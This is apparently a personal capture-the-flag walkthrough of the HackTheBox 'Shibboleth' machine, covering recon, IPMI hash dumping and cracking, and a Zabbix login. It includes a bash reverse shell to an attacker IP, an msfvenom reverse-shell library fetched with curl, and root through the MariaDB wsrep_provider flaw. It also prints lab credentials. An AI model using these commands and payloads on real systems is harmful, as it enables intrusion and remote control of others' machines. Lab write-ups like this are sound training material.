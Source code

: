 # HTB - Shibboleth Walkthrough 🥷

> _“Don’t half-ass it. When you stop midway, you lose your momentum and make dumb mistakes.”_



### 🔍 Initial Recon

#### 🔎 TCP Scan

Only one port stood tall:

```
80/tcp open  http    syn-ack Apache httpd 2.4.41
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Did not follow redirect to http://shibboleth.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: Host: shibboleth.htb
```

So it’s likely a web-based entry point — either a web shell, RCE, or hopefully SSH later on (I like having a stable shell, sue me).

🔎 UDP Scan

```
623/udp open  asf-rmcp
```

Yup. That’s IPMI. A classic hole in many networks. Tucking that away for later…

### 🌐 Subdomain Discovery

```
ffuf -u http://shibboleth.htb -H 'Host: FUZZ.shibboleth.htb' -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -fw 18
```

Found:

```
monitor
monitoring
zabbix
```

All routed to the same interface/site. Interesting. Burp showed some app behavior, but nothing juicy yet.

### 🔁 Circle Back to UDP (623/IPMI)

Ref: [HackTricks on IPMI](https://hacktricks.boitatech.com.br/pentesting/623-udp-ipmi)

Used Metasploit to pull potential hashes:

```
msfconsole
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.10.11.124
run
```

💥 Got a juicy hash:

```
Administrator:914fade8820100000830a3be05dcbec9310a8c18dfb7589f1e3de87662a5ca64ee24ff833aa0e9a1a123456789abcdefa123456789abcdef140d41646d696e6973747261746f72:bda78a132c0e95bc35fd085fbb136ac6dc62c762
```

Saved it and cracked it:

```
echo "<hash>" > hash
hashcat -m 7300 hash /usr/share/wordlists/rockyou.txt
```

### 🔐 Zabbix Login

Tried creds on Zabbix from subdomain — and it worked.



***

### 🖥️ Reverse Shell via Zabbix

To execute a reverse shell, used Zabbix's `system.run[]` item:

```
echo "bash -i >& /dev/tcp/10.10.16.8/4444 0>&1" | base64
```

<figure><img src="../.gitbook/assets/image (4) (1).png" alt=""><figcaption></figcaption></figure>

⚠️ _Without `nowait`, the session died in \~4 seconds. Annoying little gotcha._

Made the shell stable with:

```
script /dev/null -c bash
```

### 🔄 Priv Esc - Switching Users

Poked around. Found a second user: `ipmi-svc`. Tried the same password. It worked.

```
su ipmi-svc
# Password: ilovepumkinpie1

```

### 🧪 Enumeration & Dead Ends

* Checked `/etc/zabbix/zabbix_server.conf` for DB creds.
* Looked at sudo perms.
* Dug through config files.
* Nada. No root path in sight.\
  &#xNAN;_(Paused here because guests showed up. Came back later.)_



### 🤯 Moment of Clarity: MariaDB Version Exploit (CVE-2021-27928)

Should’ve thought of this sooner. It’s literally part of what I do at work — check SBOMs and versions.

Saw MySQL version was **10.3.25** → vulnerable.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.16.8 LPORT=4445 -f elf-so -o rev.so    
```

```
nc -lvnp 4445
```



```
curl http://10.10.16.8/rev.so --output rev.so
```



```
mysql -u zabbix -pbloooarskybluh
```

Then triggered:

```
SET GLOBAL wsrep_provider="/home/ipmi-svc/rev.so";
```

* and you get a shell as root

🔥 **ROOT SHELL DROPPED.**

### 🧠 Lessons Learned

* Don’t half-ass walkthroughs — finish what you start. Pausing mid-box kills flow and costs you time.
* IPMI still sucks.
* Zabbix + misconfigs = pwnage.






